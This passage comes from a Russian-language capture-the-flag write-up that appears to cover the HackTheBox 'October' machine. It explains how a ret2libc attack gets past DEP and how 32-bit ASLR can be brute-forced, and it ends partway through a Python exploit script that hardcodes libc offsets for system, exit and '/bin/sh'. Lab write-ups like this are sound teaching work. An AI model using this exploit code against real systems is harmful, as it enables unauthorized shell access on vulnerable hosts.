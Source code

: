 [![exploit_no_aslr-py.png](/assets/images/pwn-kingdom/october/exploit_no_aslr-py.png)](/assets/images/pwn-kingdom/october/exploit_no_aslr-py.png)
{:.center-image}

Таким образом, мы обошли защиту от выполнения кода в стеке. Сама по себе защита DEP не может помешать проведению атаки ret2libc, т. к. в данном случае мы задействуем уже существующий в адресном пространстве машинный код. Для усложнения проведения эксплуатаций подобного рода применяется технология рандомизация размещения адресного пространства ASLR, благодаря которой адрес загрузки стандартной библиотеки в память меняется с каждым вызовом программы. Для 64-битных архитектур это решения и правда сильно затрудняет жизнь «низкоуровневому» нарушителю, однако на 32-битных системах адрес `libc` вполне легко можно подобрать при условии отсутствия ограничений на количество разрешенных запусков уязвимого исполняемого файла.

## Обход ASLR — метод «грубой силы»

Активируем ASLR и взглянем на то, как меняются адреса загрузки `libc`, снова выполнив скрипт `ldd` в цикле.

```
$ sudo sh -c 'echo 2 > /proc/sys/kernel/randomize_va_space'
```

[![aslr-changing-bytes-localhost.png](/assets/images/pwn-kingdom/october/aslr-changing-bytes-localhost.png)](/assets/images/pwn-kingdom/october/aslr-changing-bytes-localhost.png)
{:.center-image}

На моем стенде, равно как и на ВМ October, значительным изменениям подвергается всего **один байт** (3-й и 4-й разряды адреса, представленного в шестнадцатиричной записи, начиная отсчет с нуля) и **один бит** (в 5-м разряде, где мы видим всего два различных значения).

[![aslr-changing-bytes-pic.png](/assets/images/pwn-kingdom/october/aslr-changing-bytes-pic.png)](/assets/images/pwn-kingdom/october/aslr-changing-bytes-pic.png)
{:.center-image}

В квадратных скобках я отметил количество возможных вариантов для данной позиции исходя из размышлений выше. Следовательно, если я возьму наугад случайный адрес из тех 512 значений, которые могут «выпасть», то я получу шанс `1 - (511/512) ≈ 0.2%` угадать правильный адрес `libc`. Однако если я запущу тот же самый эксплоит 1000 раз, то мои шансы на успех повысятся до `1 - (511/512)^1000 ≈ 85.84%`, что звучит намного более оптимистично.

Модифицируем наш скрипт, обернув вызов программы в цикл.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# Использование: python exploit.py

import struct
from subprocess import call


def little_endian(num):
	"""Упаковка адреса в формат little endian."""
	return struct.pack('<I', num)


junk = "A" * 112            # мусор

libc_addr = 0xb7e09000      # базовый адрес libc

system_offset = 0x0003ada0  # смещение функции system
exit_offset = 0x0002e9d0    # смещение функции exit
sh_offset = 0x0015ba0b      # смещение строки "/bin/sh"

system_addr = little_endian(libc_addr + system_offset)
exit_addr = little_endian(libc_addr + exit_offset)
sh_addr = little_endian(libc_addr + sh_offset)
```